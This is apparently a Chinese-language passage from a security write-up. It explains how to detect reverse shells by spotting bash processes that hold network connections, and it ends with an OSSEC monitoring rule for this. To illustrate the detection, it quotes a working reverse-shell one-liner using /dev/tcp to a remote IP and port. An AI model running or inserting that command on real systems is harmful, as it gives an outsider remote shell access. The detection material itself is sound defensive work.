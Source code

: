 1）存在连接的Bash进程

通常情况下Bash进程是不会存在连接状态的，其父进程SSHD存在网络连接，如下：

```
[root@sec248 cron.daily]# ps -ef | grep bash | grep -v grep

root     41011 41009  0 08:42 pts/4    00:00:00 -bash

root     45984 45982  0 Dec21 pts/1    00:00:00 -bash

[root@sec248 cron.daily]# netstat -antlp | grep sshd | grep EST

tcp        0     64 10.59.0.248:22              192.168.190.201:52947       ESTABLISHED 41009/sshd         

tcp        0      0 10.59.0.248:22              192.168.190.201:2164        ESTABLISHED 45982/sshd
```

而反弹shell时，反弹命令bash -i &gt;& /dev/tcp/192.168.192.144/2345 0&gt;&1，我们看一下反弹连接

```
[root@server120 ~]# netstat -antlp | grep bash

tcp        0      0 192.168.192.120:34710       192.168.192.144:2345        ESTABLISHED 15497/bash
```

可以看到存在Bash连接，那么我们添加OSSEC的监控项

```
<localfile>

    <log_format>full_command</log_format>

    <command>netstat -antlp | grep ESTABLISHED | egrep '/(bash|sh)'</command>

  </localfile>
```




